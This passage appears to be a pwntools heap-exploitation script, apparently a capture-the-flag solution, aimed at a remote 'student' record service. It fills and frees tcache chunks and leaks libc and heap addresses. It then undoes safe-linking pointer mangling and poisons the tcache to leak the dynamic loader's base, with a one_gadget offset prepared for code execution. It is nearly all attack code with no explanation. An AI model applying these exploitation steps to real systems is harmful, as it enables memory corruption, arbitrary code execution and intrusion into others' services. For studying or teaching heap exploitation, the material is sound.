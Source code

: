 ```python
    slnaf(b'Input student ID: ', str(i).encode())
def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val
def rightRotate(n, d):
	return (n >> d)|(n << (64 - d)) & 0xffffffffffffffff
def leftRotate(n, d):
     return ((n << d)|(n >> (64 - d))) & 0xffffffffffffffff

p = remote('13.212.34.169', 31527)
#p = process()
#gdb.attach(p, gdbscript='''c''')
NAME = 0x4040c0
KEY = 0x4040a0
STACK = 0x21a530
LIBC_STACK_END = 0x449a90
LEAK_LD_OFFSET = 0x219010
LD_OFFSET = 0x15c0a
_DL_FINI = 0x6040
create_student(0, 0xa0, b'A') 
create_student(1, 0xa0, b'A')
create_student(2, 0xa0, b'A') 
create_student(3, 0xa0, b'A')
create_student(4, 0xa0, b'A') 
create_student(5, 0xa0, b'A')
create_student(6, 0xa0, b'A') 
create_student(7, 0xa0, b'A')
create_student(8, 0xa0, b'A')
for i in range(8):
    delete(i)
show(7)
leak = p.recv(6)
leak = int.from_bytes(leak, byteorder='little')
libc.address = leak - 0x219ce0
print('leak: {}'.format(hex(leak)))
print('libc: {}'.format(hex(libc.address)))
show(6)
leak = p.recvuntil(b'E')[:-1]
leak = int.from_bytes(leak, byteorder='little')
print('leak: {}'.format(hex(leak)))
heap = leak & 0xffffffffffff0000
#for i in range(0xf):
#    tmp = heap + (i << 12)
#    if(((tmp + 0x6c0) >> 12) ^ (tmp + 0x610) == leak):
#        heap = tmp
#        break
heap = deobfuscate(leak)
heap = (heap >> 12) << 12
print('heap: {}'.format(hex(heap))) 
ONE_GADGET = 0xebcf8
create_student(6, 0xa0, p64(((heap + 0x6c0) >> 12) ^ (libc.address + LEAK_LD_OFFSET)))
create_student(9, 0xa0, b'A')
create_student(10, 0xa0, b'')
show(10)
leak = p.recvuntil(b'E')[:-1]
leak = int.from_bytes(leak, byteorder='little')
ld.address = leak - LD_OFFSET
print('leak: {}'.format(hex(leak)))
print('ld: {}'.format(hex(ld.address)))
```
